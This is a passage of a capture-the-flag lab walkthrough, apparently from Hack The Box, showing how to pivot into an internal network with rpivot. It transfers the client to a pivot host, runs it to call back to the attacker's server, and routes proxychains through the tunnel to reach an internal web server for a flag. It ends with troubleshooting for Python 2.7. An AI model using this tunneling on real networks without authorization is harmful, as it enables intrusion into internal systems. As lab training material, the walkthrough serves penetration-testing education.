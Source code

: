 **Step 2: Transfer and Run Client**
```bash
# Transfer to pivot host
scp -r rpivot ubuntu@<pivot_ip>:/home/ubuntu/

# SSH to pivot host
ssh ubuntu@<pivot_ip>

# Run client
cd ~/rpivot
python2.7 client.py --server-ip <attack_host_ip> --server-port 9999
```

**Step 3: Configure Proxychains**
```bash
# Edit proxychains config
sudo nano /etc/proxychains.conf

# Add:
[ProxyList]
socks4 127.0.0.1 9050
```

**Step 4: Access Web Server**
```bash
# Method 1: Curl for flag
proxychains curl http://172.16.5.135

# Method 2: Firefox GUI
proxychains firefox-esr 172.16.5.135

# Look for flag in format: HTB{...} or similar
```

**Answer:** `[Flag will be displayed on the web page]`

---

## **7. Troubleshooting Rpivot**

### **Common Issues**

#### **Python 2.7 Not Available**
```bash
# Problem: python2.7 command not found
bash: python2.7: command not found

# Solutions:
1. Install system package
   sudo apt-get install python2.7

2. Use pyenv installation
   pyenv install 2.7 && pyenv shell 2.7

3. Create symlink (if python2 exists)
   sudo ln -s /usr/bin/python2 /usr/bin/python2.7
```

